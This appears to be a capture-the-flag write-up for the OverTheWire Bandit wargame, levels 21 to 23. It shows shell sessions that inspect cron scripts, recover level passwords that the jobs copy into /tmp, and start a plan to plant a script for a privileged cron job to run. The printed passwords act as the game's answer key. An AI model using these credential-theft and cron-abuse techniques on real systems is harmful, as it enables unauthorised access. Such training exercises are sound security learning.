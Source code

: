 ```bash
cat: otw-tmp-dir: Permission denied
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:/etc/cron.d$ cat /etc/bandit_pass/bandit22
cat: /etc/bandit_pass/bandit22: Permission denied
bandit21@bandit:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff
```

## Level 22

```bash
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ cat /tmp/$(echo I am user $(whoami) | md5sum | cut -d ' ' -f 1)
WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff
```

Wrong? The script is running by 23, so

```bash
bandit22@bandit:~$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

## Level 23

Just use level 22 script to "steal" password. Notice that you have to be fast due to cron.

```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
```